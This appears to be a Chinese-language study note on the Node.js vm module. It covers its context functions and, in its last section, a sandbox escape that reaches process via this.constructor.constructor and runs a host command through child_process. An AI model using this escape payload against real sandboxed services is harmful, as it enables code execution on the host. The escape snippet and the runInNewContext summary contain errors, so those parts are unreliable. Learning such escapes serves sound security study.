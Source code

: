 ## vm 沙箱
### vm文档
https://nodejs.cn/api-v14/vm.htm
### vm沙箱常用函数
#### vm.runinThisContext(code)
`vm.runInThisContext()` 编译 `code`，在当前 `global` 的上下文中运行它并返回结果。 运行代码无权访问局部作用域，但可以访问当前 `global` 对象。

```js
const vm = require('vm');
let localVar = 'initial value';
  
const vmResult = vm.runInThisContext('localVar = "vm";');
console.log(`vmResult: '${vmResult}', localVar: '${localVar}'`);
// 打印: vmResult: 'vm', localVar: 'initial value'
  
const evalResult = eval('localVar = "eval";');
console.log(`evalResult: '${evalResult}', localVar: '${localVar}'`);
// 打印: evalResult: 'eval', localVar: 'eval'
```

#### vm.createContext([contextObject[, options]])
如果给定 `contextObject`，`vm.createContext()` 方法将准备那个对象，以便它可以用于调用 `vm.runInContext()` 或 `script.runInContext()`。 在此类脚本中，`contextObject` 将是全局对象，保留其所有现有属性，但也具有任何标准全局对象具有的内置对象和函数。 在 vm 模块运行的脚本之外，全局变量将保持不变。
```js
const vm = require('vm');

global.globalVar = 3;

const context = { globalVar: 1 };
vm.createContext(context);
vm.runInContext('globalVar *= 2;', context);

console.log(context);
// 打印: { globalVar: 2 }
console.log(global.globalVar);
// 打印: 3
```

从结果可以看出这个新的沙箱对象是独立于global外的一个独立作用域，而这个沙箱对象是这个作用域的全局对象，与global中的全局全局对象是不同的，相当于v8中的第二个global

#### vm.runInContext(code, contextifiedObject[, options])
`vm.runInContext()` 方法编译 code，在 `contextifiedObject` 的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。 `contextifiedObject` 对象必须之前已经使用 `vm.createContext(`) 方法上下文隔离化。
```js
const vm = require('vm');

const contextObject = { globalVar: 1 };
vm.createContext(contextObject);

for (let i = 0; i < 10; ++i) {
  vm.runInContext('globalVar *= 2;', contextObject);
}
console.log(contextObject);
// 打印: { globalVar: 1024 }
```
#### vm.runInNewContext(code[, contextObject[, options]])
`vm.runInNewContext()` 首先将给定的 `contextObject` 上下文化（如果作为 `undefined` 传入，则创建新的 `contextObject`），编译 code，在创建的上下文中运行它，然后返回结果。 运行代码无权访问本地作用域。
如果 `options` 是字符串，则指定文件名。
简单的说 `vm.runInNewContext = vm.createContext + vm.createContext`

### vm沙箱逃逸方法
#### 传递对象逃逸
```js
const vm = require("vm");

const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
//const y1 = vm.runInNewContext(`this.toString.constructor('return process')()`);
return y1.mainModule.require('child_process').execSync('whoami').toString()
console.log(y1);
```

这里的`this` 是传递给`runInNewContext`的对象，这个对象并不在沙箱环境中，接下来就和ssit相似的过程去获取构造器，以及构造器对象的构造器

>注意：数字，字符串，布尔这类都是primitive类型，在传递的过程中他们是将值传递过去而不是引用，所以是没有办法用来利用的



## 参考文章
